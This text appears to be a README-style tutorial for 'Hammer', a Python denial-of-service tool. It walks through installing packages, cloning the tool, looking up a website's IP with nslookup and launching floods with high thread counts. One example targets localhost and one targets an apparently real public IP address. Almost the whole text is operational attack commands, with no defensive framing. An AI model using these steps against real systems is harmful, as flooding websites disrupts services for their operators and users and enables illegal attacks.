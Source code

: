 $ apt update
$ apt upgrade
$ apt install python
$ apt install git
$ apt install dnsutils
$ git clone https://github.com/Pavithran-R/Hammer/

Hammer need the Name Server of a website which you want to attack...
To get the Name Server...just type
$ nslookup example.com
Note the IP Address of that Website

then
$ cd Hammer
$ python hammer.py -s [ip Address] -t 135
example:
$ python hammer.py -s 123.45.67.89 -t 135

Video Tutorial: How to use Hammer Watch it


$ python hammer.py -s 127.0.0.1 -p 8000 -t 500

python hammer.py -s 216.24.57.4 -p 80 -t 5000

